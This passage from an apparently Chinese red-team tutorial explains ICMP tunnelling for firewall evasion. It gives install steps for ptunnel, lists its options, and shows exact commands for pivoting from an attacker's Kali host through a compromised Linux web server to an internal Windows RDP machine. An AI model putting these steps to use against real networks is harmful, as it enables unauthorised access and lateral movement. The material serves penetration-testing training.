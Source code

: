 ## 1、介绍

在内网中，如果攻击者使用 HTTP、DNS 等应用层隧道都失败了，那么或许可以试试网络层的 ICMP 隧道，ICMP 协议最常见的场景就是使用 ping 命令，而且一般防火墙都不会禁止 ping 数据包。

因此我们便可以将 TCP/UDP 数据封装到 ICMP 的 ping 数据包中，从而绕过防火墙的限制。

## 2、建立 ICMP 隧道工具 

用于建立 ICMP 隧道的工具常见有：ptunnel、icmpsh、icmptunnel 等

### ptunnel

ptunnel 全称 PingTunnel，Kali 下自带该工具，Linux 下安装过程如下：

```
yum -y install byaccyum -y install flex bison#安装libpcap依赖库wget http://www.tcpdump.org/release/libpcap-1.9.0.tar.gztar -xzvf libpcap-1.9.0.tar.gzcd libpcap-1.9.0./configuremake && make install#安装PingTunnelwget http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gztar -xzvf PingTunnel-0.72.tar.gzcd PingTunnelmake && make install
```

ptunnel 常用命令介绍：

```
-p: 指定跳板服务器 IP 地址-lp: 监听本地 TCP 端口-da: 指定访问目标的内网 IP 地址-dp: 指定访问目标的端口-m: 设置隧道最大并发数-v: 输入内容详细级别（-1到4，其中-1为无输出，4为全部输出）-udp: 切换使用UDP代替ICMP，代理将监听端口53（必须是 root 权限）-x: 设置隧道密码，防止滥用（客户端和代理端必须相同）
```

目前有这样的一个场景，当前已经拿下了一台外网 Web Linux 服务器，想通过它利用 ICMP 协议连接内网的一台已经开启远程桌面的 Windows ，网络结构简化如下。

```
Kali 攻击机       172.16.214.6 (外网)||Linux Web 跳板机  172.16.214.5  (外网)|                192.168.7.5   (内网)||Win RDP 目标机    192.168.7.110 (内网)
```

在 Kali 攻击机上执行以下命令

```
ptunnel -p 172.16.214.5 -lp 1080 -da 192.168.7.110 -dp 3389 -x teamssix
```

```
-p  指定跳板机外网IP-lp 指定本机的监听端口-da 指定目标机的内网IP-dp 指定目标机的端口-x 设置隧道密码
```

在 Linux Web 跳板机上执行以下命令

```
ptunnel -x teamssix
```

之后访问 Kali 攻击机 172.16.214.6 的 1080 端口就会连接到 Win RDP 目标机 192.168.7.110 的 3389 端口了，不过实测发现这种方法有些不稳定。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-04-07_14-46-46.png)

### icmpsh
